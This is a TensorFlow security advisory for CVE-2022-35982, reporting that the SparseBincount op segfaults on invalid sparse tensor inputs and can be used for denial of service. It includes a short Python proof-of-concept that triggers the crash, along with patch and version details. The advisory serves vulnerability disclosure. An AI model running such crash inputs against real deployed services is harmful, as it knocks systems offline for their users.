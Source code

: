 URL:https://source.chromium.org/chromium/chromium/src/+/main:third_party\tflite\src\tensorflow\security\advisory\tfsa-2022-113.md
## TFSA-2022-113: Segfault in `SparseBincount`

### CVE Number
CVE-2022-35982

### Impact
If `SparseBincount` is given inputs for `indices`, `values`, and `dense_shape` that do not make a valid sparse tensor, it results in a segfault that can be used to trigger a denial of service attack.
```python
import tensorflow as tf
binary_output = True
indices = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int64, seed=-1288)
values = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int32, seed=-9366)
dense_shape = tf.random.uniform(shape=[0], minval=-10000, maxval=10000, dtype=tf.int64, seed=-9878)
size = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.int32, seed=-10000)
weights = tf.random.uniform(shape=[], minval=-10000, maxval=10000, dtype=tf.float32, seed=-10000)
tf.raw_ops.SparseBincount(indices=indices, values=values, dense_shape=dense_shape, size=size, weights=weights, binary_output=binary_output)
```

### Patches
We have patched the issue in GitHub commit [40adbe4dd15b582b0210dfbf40c243a62f5119fa](https://github.com/tensorflow/tensorflow/commit/40adbe4dd15b582b0210dfbf40c243a62f5119fa).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Di Jin, Secure Systems Labs, Brown University
